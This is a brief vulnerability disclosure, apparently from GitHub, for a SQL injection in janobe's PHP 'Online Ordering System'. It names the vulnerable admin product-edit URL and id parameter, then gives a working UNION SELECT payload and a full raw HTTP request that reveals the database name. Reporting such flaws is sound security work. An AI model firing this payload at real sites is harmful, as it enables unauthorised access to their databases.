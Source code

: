 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/products/index.php?view=edit&id=

Vulnerability location: /ordering/admin/products/index.php?view=edit&id= //id is Injection point

[+]Payload: /ordering/admin/products/index.php?view=edit&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ //id is Injection point

Current database name: multistoredb

```sql
GET /ordering/admin/products/index.php?view=edit&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/168949906-615fc915-facb-413c-8085-479c3e3a9a77.png)

![image](https://user-images.githubusercontent.com/54017627/168950062-0324f3d0-1773-4301-bcd9-2bdf4e04ed60.png)
